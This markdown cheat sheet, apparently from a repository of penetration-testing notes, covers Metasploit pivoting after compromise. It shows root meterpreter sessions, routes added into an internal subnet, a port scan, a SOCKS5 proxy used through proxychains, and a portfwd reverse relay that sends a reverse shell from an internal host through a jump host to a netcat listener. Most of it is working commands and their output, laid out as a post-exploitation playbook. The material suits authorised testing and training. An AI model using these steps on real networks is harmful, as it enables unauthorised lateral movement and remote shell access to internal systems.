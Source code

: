 # Metasploit Port Tunneling for exploitation

## Scenario 1: 
- The service of my target machine (10.10.1.10) is serving only at lo interface at 127.0.0.1:3306. It does not serve at 0.0.0.0:3306.
- I have an active meterpreter session for this machine.

Technique: Local Port Forwarding via meterpreter portfwd

(TODO)

## Scenario 2: 
- I have exploited a machine (10.10.1.10) that has access to another internal admin network on another network interface eth2 (172.16.1.10).
- I would like to perform port scanning on the intranet network.

Technique: Add Route, Add Socks proxy

```sh
msf6 > sessions

Active sessions
===============

  Id  Name  Type                   Information          Connection
  --  ----  ----                   -----------          ----------
  1         shell linux            SSH root @           10.10.1.32:35981 -> 10.10.1.10:22 (10.10.1.10)
  2         meterpreter x86/linux  root @ 172.16.1.100  10.10.1.32:4433 -> 10.10.1.10:43318 (10.10.1.10)
  
msf6 > route add 172.16.1.0/24 255.255.255.0 2
[*] Route added

msf6 > route get 172.16.1.2
172.16.1.2 routes through: Session 2
```
My active meterpreter session is at SESSION 2. Add a route with the following format: `route add <IP/CIDR> <SUBNET> <SESSION>`. 
Performing this will allow you to use metasploit modules to port scan the intranet network.

```
msf6 > use auxiliary/scanner/portscan/tcp 
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.1.2
RHOSTS => 172.16.1.2
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 80
PORTS => 80
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.1.2:           - 172.16.1.2:80 - TCP OPEN
[*] 172.16.1.2:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
We can perform port scan via metasploit module. However, we can further expand this to tools outside of metasploit by setting up a SOCKs proxy.

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 1.
[*] Starting the SOCKS proxy server
```
We set up a SOCK5 proxy and configure our `proxychains.conf` to use 127.0.0.1:9050.

```
(host)# proxychains curl -v http://172.16.1.2/ 
ProxyChains-3.1 (http://proxychains.sf.net)
*   Trying 172.16.1.2:80...
* Connected to 172.16.1.2 (127.0.0.1) port 80 (#0)
...
```
We have more flexibility with what tools to use with this Socks proxy set up. 

## Scenario 3:
- I have gained access to intranet admin web portal (172.16.1.2:80) via my exploited jump host (10.10.1.10 or 172.16.1.10) via Scenario 2.
- I found a vulnerability on 172.16.1.2:80
- I want to get a reverse connection back to my host machine (10.10.1.32) via tunneling through jump host at 172.16.1.10:4444.

Technique: portfwd reverse relaying

```
msf6 post(multi/manage/sudo) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > portfwd list

No port forwards are currently active.

meterpreter > portfwd add -R -L 10.10.1.32 -l 4443 -p 4444
[*] Reverse TCP relay created: (remote) :4444 -> (local) 10.10.1.32:4443

meterpreter > background

(host)# nc -nlvp 4443
```
portfwd is a meterpreter feature that supports relaying. We specify `-R` for reverse relaying. The `-L` option is the IP of host machine and `-l` is our netcat listener while `-p` will open a listening port on our jump host at `0.0.0.0:4444`.

```
(host)# proxychains exploit.sh --lhost=172.16.1.10 --lport=4444
```
We trigger our reverse shell to connect to our jumphost at 172.16.1.0:4444 which will get relayed back to our host's netcat. 

